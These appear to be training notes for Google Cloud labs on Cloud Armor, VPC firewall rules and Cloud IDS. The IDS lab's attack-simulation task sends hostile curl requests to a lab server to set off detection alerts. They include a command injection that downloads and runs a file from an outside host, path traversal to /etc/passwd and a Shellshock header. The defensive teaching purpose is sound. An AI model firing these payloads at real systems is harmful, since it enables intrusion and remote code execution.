- Verified that the HTTP load balancer was deployed.
- Created a VM to test access to the HTTP load balancer.
- Used Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.


### Quiz

1. Which Google Cloud service provides defense against infrastructure and application Distributed Denial of Service (DDoS) attacks?

- Cloud CDN

- Cloud DNS

- Cloud Load Balancing

- **Google Cloud Armor**

Correct. Google Cloud Armor is specifically designed to protect against  DDoS attacks at both the infrastructure and application layers. It  offers features like: 

- Web Application Firewall (WAF) to filter malicious traffic
- Rate limiting to control traffic spikes
- DDoS attack detection and mitigation
- IP whitelisting and blacklisting

2. Which two of the following statements are true about Google Cloud Armor?

- Google Cloud Armor is not currently compatible with any third-party partner security products.

- **Google Cloud Armor enforces access control based on IPv4 and IPv6 addresses or CIDRs.**

- **Google Cloud Armor protection is delivered at the edge of Google’s network.**

- Google Cloud Armor is a ransomware defense service.

Correct. This is a key advantage of Cloud Armor. By filtering traffic at the edge, it can mitigate attacks before they reach your  infrastructure, reducing the load on your resources and ensuring better  protection.

Correct. This is a core feature of Cloud Armor. It allows you to create  rules that permit or deny traffic based on the source IP address or  range. This is useful for filtering out known bad actors or restricting  access to specific regions.


## Controlling Access to VPC Networks

### LAB - Configuring VPC Firewalls

#### Overview

In this lab, you investigate [Virtual Private Cloud (VPC)](https://cloud.google.com/vpc) networks and create firewall rules to allow and deny access to a network and instances.

You begin by creating an automatic VPC network, a custom VPC network, and some VPC instances in those networks. You verify that the default-allow-ssh firewall rule is working and then compare this to the user created custom network to verify no ingress is allowed without custom firewall rules.

After deleting the default network, you use firewall rule priorities,to allow both ingress and egress of network traffic to your VMs.

#### Objectives

In this lab, you will learn how to:

- Create an auto-mode network, a custom-mode network, and associated subnetworks.
- Investigate firewall rules in the default network and then delete the default network.
- Use features of firewall rules for more precise and flexible control of connections.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - @.com (active)
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = 
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

#### Task 1. Create VPC networks and instances

In this task, you create an automatic VPC network and custom VPC network, and some initial VPC instances in those networks.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** () to open Cloud Shell. If prompted, click **Continue**.
2. To create the network *mynetwork* with auto subnets, run the following command:

```
gcloud compute networks create mynetwork --subnet-mode=auto
```

Copied!

**Note:** When an auto mode VPC network is created, one subnet from each region is automatically created within it. These automatically created subnets use a set of predefined IP ranges that fit within the 10.128.0.0/9 CIDR block.

You will now create a network with custom subnets. You can choose any private RFC 1918 CIDR block for the primary IP address range of the subnets.

1. To create the network *privatenet* with custom subnets, run the following command:

```
gcloud compute networks create privatenet \
--subnet-mode=custom
```

Copied!

1. To create a custom subnet in the privatenet network, run the following command:

```
gcloud compute networks subnets create privatesubnet \
--network=privatenet --region=Region \
--range=10.0.0.0/24 --enable-private-ip-google-access
```

Copied!

1. To create some instances to use later for testing in all networks, run these commands:

```
gcloud compute instances create default-vm-1 \
--machine-type e2-micro \
--zone=Zone 1 --network=default
```

Copied!

```
gcloud compute instances create mynet-vm-1 \
--machine-type e2-micro \
--zone=Zone 1 --network=mynetwork
```

Copied!

```
gcloud compute instances create mynet-vm-2 \
--machine-type e2-micro \
--zone=Zone 2 --network=mynetwork
```

Copied!

```
gcloud compute instances create privatenet-bastion \
--machine-type e2-micro \
--zone=Zone  --subnet=privatesubnet --can-ip-forward
```

Copied!

```
gcloud compute instances create privatenet-vm-1 \
--machine-type e2-micro \
--zone=Zone  --subnet=privatesubnet
```

Copied!

Click *Check my progress* to verify the objective.

Create VPC networks and instances


#### Task 2. Investigate the default network

In this task, you explore the default network and verify that the default-allow-ssh firewall rule is working. Later, you delete the default-vm-1 instance and default network because you no longer need it.

Return to the Cloud Console and view the firewall rules.

1. On the **Navigation menu**, click **VPC network > Firewall**.

The following four default rules are created for the default network:


Remember, all networks also have the following 2 rules, which are not displayed in the console:


To check that the default-allow-ssh firewall rule is working, ssh into the default-vm-1 instance in the default network and test it.

1. On the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. In the row for the **default-vm-1** instance, click **SSH**.

You should connect successfully via SSH to the instance because of the default-allow-ssh rule. You can ping `www.google.com` to test the egress connectivity. Press **Ctrl+C** to stop the ping.

##### Delete the default-vm-1 instance

Now delete the default-vm-1 instance because you no longer need it.

1. In the **Navigation menu**, click **Compute Engine > VM instances**, select the **default-vm-1** instance and then click **Delete**.
2. In the confirmation box, click **Delete**.

##### Delete the default network

**Note:** Because the default network allows relatively open access, we recommend that you delete it for production projects.

1. On the **Navigation menu**, click **VPC network > VPC networks** to display the list of VPC networks in the Cloud Console.
2. Click the **default** network to view the network details.
3. Click **Delete VPC Network**.
4. In the confirmation box, click **Delete**.
5. Wait for the network to be deleted and verify that the default network is no longer displayed on the VPC Networks page.

#### Task 3. Investigate the user-created networks

In this task, you explore the user-created networks to verify no ingress is allowed without custom firewall rules.

##### Verify that no ingress is allowed without custom firewall rules

Remember, all networks have the following 2 rules (which will not be displayed in the Console) to block all incoming traffic and allow all outgoing traffic. Unlike the default network, user-created networks do not have any other rules by default, so currently no inbound traffic is allowed.


1. On the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. In the row for **mynet-vm-1** or **mynet-vm-2**, click **SSH**.

You should **NOT** be able to connect via SSH to the instances.

You will now try to SSH into an instance from the Cloud Shell.

1. Switch back to or reopen Cloud Shell.
2. To try to ssh into the **mynet-vm-2** instance, run the following command:

```
gcloud compute ssh qwiklabs@mynet-vm-2 --zone Zone 2
```

Copied!

If prompted, type `Y` and press **Enter** twice to proceed.

We should **NOT** be able to connect via SSH to the instances. There is currently no inbound access allowed. Igonre the error message **ERROR: (gcloud.compute.ssh) [/usr/bin/ssh] exited with return code [255]**

#### Task 4. Create custom ingress firewall rules

In this task, you use Cloud Shell as your client host to test SSH connectivity to the instances. The external IP address of the Cloud Shell instance can be easily retrieved.

However, the IP address of your Cloud Shell instance can change if you close and reopen it, or if it is recycled due to inactivity. This should not be a problem during this lab. For a "real" project, you would allow the IP address of your SSH client host and there should not be a problem.

**Note:** As you just verified, the browser-based console SSH feature used to connect to VM instances does not currently work. If you want to allow that, you need a firewall rule that allows the source IP address. However, source IP addresses for browser-based SSH sessions are dynamically allocated by the Cloud Console and can vary from session to session.


For the feature to work, you must allow connections either from any IP address, or from Google's IP address range, which you can retrieve using public SPF records. Either of these options may pose unacceptable risks, depending on your requirements. Instead, you would allow the IP address of the SSH clients you are using to connect.

##### Allow SSH access from Cloud Shell

1. Switch back to or reopen Cloud Shell.
2. To retrieve the external IP address of the Cloud Shell instance, run the following commands:

```
ip=$(curl -s https://api.ipify.org)
echo "My External IP address is: $ip"
```

Copied!

**Sample output** (your IP will be different):

```
My External IP address is: 35.229.72.135
```

1. To add a firewall rule that allows port 22 (SSH) traffic from the Cloud Shell IP address, run the following command:

```
gcloud compute firewall-rules create \
mynetwork-ingress-allow-ssh-from-cs \
--network mynetwork --action ALLOW --direction INGRESS \
--rules tcp:22 --source-ranges $ip --target-tags=lab-ssh
```

Copied!

This firewall rule is also given a target tag of *lab-ssh*, which means it applies only to instances that are tagged with the lab-ssh tag.

1. To view the firewall rule in the Cloud Console, on the **Navigation menu**, click **VPC network > Firewall**.

It will look similar to the following, but your IP address will be different:


This firewall rule will be applied only to instances tagged with *lab-ssh*. It is currently not being applied to any instances.

**Note:** You have just created and applied a firewall rule using a tag. One issue with tags is that they must be added to instances and could possibly be added or removed inadvertently. Firewall rules can also be applied to instances by the service account used. These rules will be applied automatically to all instances that use the specified service account.

1. To add the lab-ssh network tag to the **mynet-vm-2** and **mynet-vm-1** instances, run the following commands in Cloud Shell:

```
gcloud compute instances add-tags mynet-vm-2 \
    --zone Zone 2 \
    --tags lab-ssh
gcloud compute instances add-tags mynet-vm-1 \
    --zone Zone 1 \
    --tags lab-ssh
```

Copied!

##### Stateful firewalls

In VPC networks, firewall rules are stateful. So for each initiated connection tracked by allow rules in one direction, the return traffic is automatically allowed, regardless of any rules.

1. To ssh into the **mynet-vm-2** instance, run the following command in Cloud Shell:

```
gcloud compute ssh qwiklabs@mynet-vm-2 --zone Zone 2
```

Copied!

It will take several seconds to negotiate the SSH keys, but the connection should succeed. This verifies that the firewall rule is allowing the traffic.

1. Type `exit` to log off the **mynet-vm-2** instance.
2. To ssh into the **mynet-vm-1** instance, run the following command in Cloud Shell:

```
 gcloud compute ssh qwiklabs@mynet-vm-1 --zone Zone 1
```

Copied!

This connection should also succeed because the **mynet-vm-1** instance is in the same network, and the firewall rule you created is allowing access to all instances.

##### Allow all instances on the same network to communicate via ping

1. While still logged in to the **mynet-vm-1** instance, try pinging the **mynet-vm-2**instance with the command shown below. (Replace the *[PROJECT_ID]* with the PROJECT_ID for your lab exercise.)

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```

Copied!

The ping command will not succeed. Even though the **mynet-vm-1** and the **mynet-vm-2** instances are in the same VPC network, all traffic is blocked by default unless there is a firewall rule allowing it.

1. Press **Ctrl+C** to stop ping if needed. Do not log out of the **mynet-vm-1** instance yet.
2. To open a new Cloud Shell window, click **Open a new tab** (**+**).
3. To add a firewall rule that allows ALL instances in the mynetwork VPC to ping each other, run the following command:

```
gcloud compute firewall-rules create \
mynetwork-ingress-allow-icmp-internal --network \
mynetwork --action ALLOW --direction INGRESS --rules icmp \
--source-ranges 10.128.0.0/9
```

Copied!

**Note:** This firewall rule does not use a target-tag and therefore applies to all instances in the network by default. There is no need to tag any instances for this firewall to take effect. This kind of firewall rule is useful if all instances in a network need the same rule, but should also be used with caution because they affect all instances.

1. Switch back to the first Cloud Shell session that is connected to **mynet-vm-1** and run the ping again. This time it should work.

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```

Copied!

Notice that the hostname *mynet-vm-2* resolved to the internal IP address of the instance. The internal IP will start with *10.132.0* (for example, *10.132.0.2*). Google Cloud resolves internal hostnames for you.

1. Press **Ctrl+C** to stop ping.
2. You can also try pinging the internal IP address directly and that will also work. Press **Ctrl+C** to stop ping.
3. To locate the external IP address of **mynet-vm-2**, on the **Navigation menu**, click **Compute Engine > VM instances**.
4. Click on **mynet-vm-2**, locate and copy the external IP address of the instance.
5. From the Cloud Shell session that is connected to **mynet-vm-1**, try to ping the external IP address of the **mynet-vm-2** instance:

```
 ping 
```

Copied!

This should **NOT** work. When you ping the external IP address, the connection goes through the internet gateway, which causes the request to be NATed. The request is now coming from the *external* IP address of the mynet-vm-1 instance. The firewall rule is to only allow ICMP requests that come from *internal* IP addresses.

1. Press **Ctrl+C** to stop ping.

Click *Check my progress* to verify the objective.

Create custom ingress firewall rules


#### Task 5. Set the firewall rule priority

In this task, you set the firewall rule priority to deny ICMP traffic. You then verify that any traffic that does not match the rule priority is denied.

So far, all the rules created have been ingress allow rules, so the priority has not been important. Firewall rules can be both allow and deny, can specify ingress and egress, and have a priority from 0 to 65,535. If you do not set a priority, the default is 1,000. Rules are evaluated based on priority, starting from the lowest value. The first rule that matches gets applied.

1. In the first Cloud Shell session, verify that you are still connected to the **mynet-vm-1** instance. You can tell because the prompt will be: `qwiklabs@mynet-vm-1:~$`.

If not connected, use the following command to reconnect:

```
 gcloud compute ssh qwiklabs@mynet-vm-1 --zone Zone 1
```

Copied!

1. Verify that you can still ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```

Copied!

1. Press **Ctrl+C** to stop ping.
2. Switch to your second Cloud Shell window (or open a new one).
3. In the second Cloud Shell, create a firewall ingress rule to deny ICMP traffic from any IP with a priority of 500:

```
gcloud compute firewall-rules create \
mynetwork-ingress-deny-icmp-all --network \
mynetwork --action DENY --direction INGRESS --rules icmp \
--priority 500
```

Copied!

1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance, and try to ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```

Copied!

It should no longer work. This new rule has a priority of 500, where the allow rule is 1,000.

1. Press **Ctrl+C** to stop ping.

Now change the deny rule to a priority of 2,000.

1. In the second Cloud Shell, modify the firewall rule just created and change the priority to `2000`:

```
gcloud compute firewall-rules update \
mynetwork-ingress-deny-icmp-all \
--priority 2000
```

Copied!

1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance, and try to ping the **mynet-vm-2** instance again:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```

Copied!

This time it will work because the deny rule has a lower priority, so the allow rule is the first matching rule.

1. Press **Ctrl+C** to stop ping.

#### Task 6. Configure egress firewall rules

In this task, you create an egress firewall rule and set the priority to 10,000. You then verify that both ingress and egress rule allow that traffic.

1. From the second Cloud Shell window, list all the current firewall rules:

```
gcloud compute firewall-rules list \
--filter="network:mynetwork"
```

Copied!

Currently, the VMs are still able to ping each other because the rule that denies ICMP has a higher priority than the allow ICMP rule.

Now try an egress rule.

1. Create a firewall egress rule to block ICMP traffic from any IP with a priority of `10000`:

```
gcloud compute firewall-rules create \
mynetwork-egress-deny-icmp-all --network \
mynetwork --action DENY --direction EGRESS --rules icmp \
--priority 10000
```

Copied!

1. List all the current firewall rules again:

```
gcloud compute firewall-rules list \
--filter="network:mynetwork"
```

Copied!

Notice that the egress rule priority is set to 10,000, which is much higher than the rules created earlier.

1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance and try to ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```

Copied!

**It should no longer work**. Even though the egress rule has a much higher priority of 10,000, it is still blocking traffic. This is because for traffic to be allowed, there must be both an ingress and egress rule allowing that traffic. The priority of ingress rules does not affect the priority of egress rules.

1. Press **Ctrl+C** to stop ping.

Click *Check my progress* to verify the objective.

Create a firewall rule with priority and egress firewall rule.


#### Congratulations!

In this lab, you did the following:

- Created an auto-mode network, a custom-mode network, and associated subnetworks.
- Investigated firewall rules in the default network, and then deleted the default network.
- Used firewall rule features for more precise and flexible control of connections.


### LAB - Getting Started with Cloud IDS

#### Overview

In this lab, you deploy [Cloud Intrusion Detection System (Cloud IDS)](https://cloud.google.com/intrusion-detection-system), a next-generation advanced intrusion detection service that provides threat detection for intrusions, malware, spyware, and command-and-control attacks. You simulate multiple attacks and view the threat details in the Google Cloud console.


#### Objectives

In this lab, you learn how to perform the following tasks:

- Build out a Google Cloud networking environment as shown in the previous diagram.
- Create a Cloud IDS endpoint.
- Create two virtual machines using gcloud CLI commands.
- Create a Cloud IDS packet mirroring policy.
- Simulate attack traffic from a virtual machine.
- View threat details in the Cloud console and Cloud Logging.

#### Setup

#### Before you click the Start Lab button

**Note: Read these instructions.**


Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

#### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

#### How to start your lab and sign in to the Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

   

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Choose an account** page.

   **Note:** Open the tabs in separate windows, side-by-side.

3. On the Choose an account page, click **Use Another Account**. The Sign in page opens.

   

4. Paste the username that you copied from the Connection Details panel. Then copy and paste the password.

**Note:** You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

1. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

After a few moments, the Cloud console opens in this tab.

**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left.

#### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - @.com (active)
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = 
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

This lab will all be done using `gcloud` CLI commands inside Cloud Shell.

#### Task 1. Enable APIs

In this task you set the project ID variable and then enable the APIs required for the lab.

1. In Cloud Shell, to set the **Project_ID** environment variable, run the following command:

```
export PROJECT_ID=$(gcloud config get-value project | sed '2d')
```

Copied!

1. Enable the Service Networking API:

```
gcloud services enable servicenetworking.googleapis.com \
    --project=$PROJECT_ID
```

Copied!

If prompted to authorize the command, click **Authorize**.

1. Enable the Cloud IDS API:

```
gcloud services enable ids.googleapis.com \
    --project=$PROJECT_ID
```

Copied!

1. Enable the Cloud Logging API:

```
gcloud services enable logging.googleapis.com \
    --project=$PROJECT_ID
```

Copied!

Click *Check my progress* to verify the objective.

Enable APIs.


#### Task 2. Build the Google Cloud networking footprint

In this task, you create a Google Cloud VPC network and configure private services access.

Private services access is a private connection between your VPC network and a network owned by Google or a third party. Google or the third party, entities who are offering services, are also known as service producers.

The private connection enables virtual machine (VM) instances in your VPC network and the services that you access to communicate exclusively by using internal IP addresses.

1. In Cloud Shell, to create a VPC, run the following command:

```
gcloud compute networks create cloud-ids \
--subnet-mode=custom
```

Copied!

If prompted to authorize the command, click **Authorize**.

1. Add a subnet to the VPC for mirrored traffic in us-east1:

```
gcloud compute networks subnets create cloud-ids-useast1 \
--range=192.168.10.0/24 \
--network=cloud-ids \
--region=us-east1
```

Copied!

1. Configure private services access:

```
gcloud compute addresses create cloud-ids-ips \
--global \
--purpose=VPC_PEERING \
--addresses=10.10.10.0 \
--prefix-length=24 \
--description="Cloud IDS Range" \
--network=cloud-ids
```

Copied!

1. Create a private connection:

```
gcloud services vpc-peerings connect \
--service=servicenetworking.googleapis.com \
--ranges=cloud-ids-ips \
--network=cloud-ids \
--project=$PROJECT_ID
```

Copied!

Click *Check my progress* to verify the objective.

Create a VPC.


#### Task 3. Create a Cloud IDS endpoint

In this task you create a Cloud IDS endpoint in us-east1 with a severity set to *informational*.

Cloud IDS uses a resource known as an IDS endpoint, a zonal resource that can inspect traffic from any zone in its region. Each IDS endpoint receives mirrored traffic and performs threat detection analysis.

**Note:** The creation of the IDS endpoint takes approximately 20 minutes.

1. To create a Cloud IDS endpoint, in Cloud Shell, run the following command:

```
gcloud ids endpoints create cloud-ids-east1 \
--network=cloud-ids \
--zone=us-east1-b \
--severity=INFORMATIONAL \
--async
```

Copied!

1. Verify that the Cloud IDS endpoint is initiated:

```
gcloud ids endpoints list --project=$PROJECT_ID
```

Copied!

If the message **Would you like to enable and retry** appears, press **Y**.

The output should be similar to this:

Command Output

```
  ID: cloud-ids-east1
  LOCATION: us-east1-b
  SEVERITY: INFORMATIONAL
  STATE: CREATING
  NETWORK: cloud-ids
  TRAFFIC_LOGS:
```

Click *Check my progress* to verify the objective.

Create a Cloud IDS endpoint.


#### Task 4. Create Firewall rules and Cloud NAT

In this task you create two firewall rules: allow-http-icmp and allow-iap-proxy.

To enable standard http port (TCP 80) connections, and ICMP protocol connections to the server VM from all sources in the cloud-ids network, you define the *allow-http-icmp*rule.

To enable SSH connections to the VMs from the Identity-Aware Proxy IP range, you define the allow-iap-proxy_ rule.

You also configure Cloud Router and then configure Cloud NAT. As a prerequisite for Cloud NAT, a Cloud Router must first be configured in the same region. To provide internet access to VMs that don't have a public IP address, a Cloud NAT must be created in the same region. The VMs will be created without a public IP address to make sure that they are inaccessible *from* the internet. However, they will need access *to* the internet to download updates and files.

1. To create the allow-http-icmp rule, in Cloud Shell, run the following command:

```
gcloud compute firewall-rules create allow-http-icmp \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:80,icmp \
--source-ranges=0.0.0.0/0 \
--target-tags=server
```

Copied!

1. Create the allow-iap-proxy rule:

```
gcloud compute firewall-rules create allow-iap-proxy \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:22 \
--source-ranges=35.235.240.0/20
```

Copied!

Click *Check my progress* to verify the objective.

Add firewall rules to the VPC.


1. To create a Cloud Router, run the following command:

```
gcloud compute routers create cr-cloud-ids-useast1 \
--region=us-east1 \
--network=cloud-ids
```

Copied!

1. To configure a Cloud NAT, run the following command:

```
gcloud compute routers nats create nat-cloud-ids-useast1 \
--router=cr-cloud-ids-useast1 \
--router-region=us-east1 \
--auto-allocate-nat-external-ips \
--nat-all-subnet-ip-ranges
```

Copied!

Click *Check my progress* to verify the objective.

Create a Cloud Router.


#### Task 5. Create two virtual machines

In this task, you create two virtual machines (VMs). The first virtual machine is your web server, which is mirroring to Cloud IDS. The second virtual machine is the source of your attack traffic.

You establish an SSH connection to your server via Identity-Aware Proxy (IAP), check the status of your web service server, create a benign malware file on the web server, and then add content to the file.

1. To create a virtual machine to be a server mirroring to Cloud IDS, in Cloud Shell, run the following command:

```
gcloud compute instances create server \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.20 \
--metadata=startup-script=\#\!\ /bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \
--tags=server \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```

Copied!

This command creates a Debian server in us-east1 and installs a simple web service.

1. Create a virtual machine to be a client sending attack traffic:

```
gcloud compute instances create attacker \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.10 \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```

Copied!

This command prepares a Debian server in us-east1 to use as your client.

Click *Check my progress* to verify the objective.

Create a virtual machine.


##### Prepare your server

In this procedure, you validate your server and then create a benign malware payload for your client.

1. To establish an SSH connection to your server via IAP, run the following command:

```
gcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
```

Copied!

This command will prompt you through a series of steps to create an ssh key and the required directories.

1. To agree to the directory creation prompt, type **Y**.
2. When prompted for a passphrase, to use a blank passphrase, press ENTER twice.

You are now in the shell of your server VM.

##### Confirm that the web service is running

In this procedure, you check the status of your web service server. You create a benign malware file on the web server and then add content to the file.

1. To check the status of your web service, run the following Linux command:

```
sudo systemctl status nginx
```

Copied!

The output should be similar to this:

Command Output

```
 ● nginx.service - A high performance web server and a reverse proxy server
   Loaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)
   Active: active (running) since Tue 2021-05-25 18:01:49 UTC; 5h 24 min ago
   Docs: man:nginx(8)
   Main PID: 1347 (nginx)
   Tasks: 3 (limit: 4665)
   Memory: 4.5M
   CGroup: /system.slice/nginx.service
           ├─1347 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
           ├─1348 nginx: worker process
           └─1349 nginx: worker process

   May 25 18:01:49 server systemd[1]: Starting A high performance web server and a reverse proxy server...
   May 25 18:01:49 server systemd[1]: Started A high performance web server and a reverse proxy server.                       
```

1. Change directory to the web service:

```
cd /var/www/html/
```

Copied!

1. Create a benign malware file on the web server. Run the following Linux command to create a text file:

```
sudo touch eicar.file
```

Copied!

1. Add the following content to the newly created file:

```
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
```

Copied!

1. Exit the server VM shell and return to Cloud Shell:

```
exit
```

Copied!

#### Task 6. Create a Cloud IDS packet mirroring policy

In this task, you create a Cloud IDS packet mirroring policy. This policy determines what traffic is mirrored to the Cloud IDS. You will then attach this policy to the newly created Cloud IDS endpoint.

As mentioned earlier, the Cloud IDS endpoint creation takes some time. Before you can proceed with this lab, the endpoint must be in an active/ready state.

1.To verify that your Cloud IDS endpoint is active, in Cloud Shell, run the following command to show the current state of the Cloud IDS endpoint:

```
gcloud ids endpoints list --project=$PROJECT_ID | grep STATE
```

Copied!

The output should be similar to this:

Command Output

```
  STATE: READY
```

Continue to run this command every few minutes until the state shows *READY*.

1. Identify the Cloud IDS endpoint forwarding rule and confirm that the Cloud IDS endpoint state is *READY*:

```
export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")
echo $FORWARDING_RULE
```

Copied!

The output should be similar to this:

Command Output

```
  https://www.googleapis.com/compute/v1/projects/md975a7fa0a53145dp-tp/regions/us-east1/forwardingRules/ids-fr-cloud--xkkerutlagop6opm                         
```


1. Create and attach the packet mirroring policy:

```
gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1
```

Copied!

Click *Check my progress* to verify the objective.

Create and attach the packet mirroring policy.


1. Verify that the packet mirroring policy is created:

```
gcloud compute packet-mirrorings list
```

Copied!

This gcloud command lists the packet mirroring policies and shows whether they are enabled/disabled.

The output should be similar to this:

Command Output

```
  NAME: cloud-ids-packet-mirroring
  REGION: us-east1
  NETWORK: cloud-ids
  ENABLE: TRUE                        
```

#### Task 7. Simulate attack traffic

In this task, you establish an SSH connection to your attacked virtual machine and simulate attack traffic from a virtual machine to your server. You do this by running a selection of `curl` commands that range from low severity to critical severity.

1. To establish an SSH connection to your attacker virtual machine through IAP, in Cloud Shell, run the following command:

```
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
```

Copied!

**Note:** You are now in the shell of your attacker VM and not the Cloud Shell machine.

1. Run the following `curl` requests in sequence to simulate low, medium, high, and critical severity alerts on the IDS:

**Low Severity:**

```
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
```

Copied!

**Medium Severity:**

```
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file
```

Copied!

**High Severity:**

```
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
```

Copied!

**Critical Severity:**

```
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
```

Copied!

1. Exit the attacker virtual machine shell and return to Cloud Shell:

```
exit
```

Copied!

#### Task 8. Review threats detected by Cloud IDS

In this task, you review the various attack traffic captured by the Cloud IDS in the Cloud console. The captured attack traffic profiles provide details of each threat.

1. In the Google Cloud console, in the **Navigation menu** (), click **Network Security > Cloud IDS**.
2. Click the **Threats** tab.

The Cloud IDS captured various attack traffic profiles and provided the details on each threat. You may need to click **Refresh** if you do not see any threats. You now dive a little deeper and view threat details.

1. Locate the **Bash Remote Code Execution Vulnerability** threat, click **More** (), and then select **View threat details**.

**Note:** You may have noticed that there are multiple threats that produce the same name, for example, “Bash Remote Code Execution Vulnerability”. This is expected behavior.


If you look closely, you will see that the session IDs of the threats are different. Since both VMs created are in the same subnet, we are seeing mirrored packets for both the client and server. Outbound packets from the client are being mirrored to IDS, and additionally, inbound packets to the server are being mirrored to IDS.

1. Now you view the details of this incident in Cloud Logging. To return to the **Threats** page, click the left arrow.
2. Click the **Threats** tab.
3. Locate the **Bash Remote Code Execution Vulnerability**, click **More**, and then select **View threat logs**.

A new Cloud Logging tab opens that displays the same details. This enables you to send the logs to Cloud Storage, Chronicle, or any SIEM/SOAR. You can also create custom workflows to take remediation action based on alerts, like creating a Cloud Function that triggers on an alert and creating or updating a firewall rule to block the IP address, or creating or updating a Google Cloud Armor policy.

